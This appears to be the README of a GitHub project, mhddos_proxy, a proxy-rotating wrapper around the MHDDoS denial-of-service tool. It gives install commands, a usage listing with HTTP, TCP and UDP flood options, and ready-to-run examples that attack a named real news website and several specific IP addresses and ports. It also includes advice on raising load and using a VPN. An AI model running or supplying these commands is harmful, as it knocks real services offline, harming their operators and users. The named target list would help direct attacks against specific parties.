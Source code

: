 ## Setup

### Docker

    docker pull portholeascend/mhddos_proxy:latest

### Python

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    python3 -m pip install -r MHDDoS/requirements.txt

## Running

### Docker

    docker run -it portholeascend/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--udp-threads UDP_THREADS]
                     [--debug]
                     [--proxy-check-url URL]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
      -p, --period 300       How often to update the proxies (default is 300)
      --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 2)

      --debug                Enable debug output from MHDDoS
      --rpc 100              How many requests to send on a single proxy connection (default is 100)
      --udp-threads 1        Threads to run per UDP target (default is 1)
      --proxy-check-url URL  URL to check proxy is working (default is randomly selected target)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, STRESS, BOT, DOWNLOADER)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD  

For UDP targets, attack method is UDP FLOOD.   
**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL  - `https://tvzvezda.ru` or `http://tvzvezda.ru` 
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT  - `tcp://194.54.14.131:4477`
- UDP by IP:PORT  - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 10 minutes)

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

Specific attack method

    python3 runner.py https://tvzvezda.ru --http-methods GET

# TODO

- [ ] Docker image
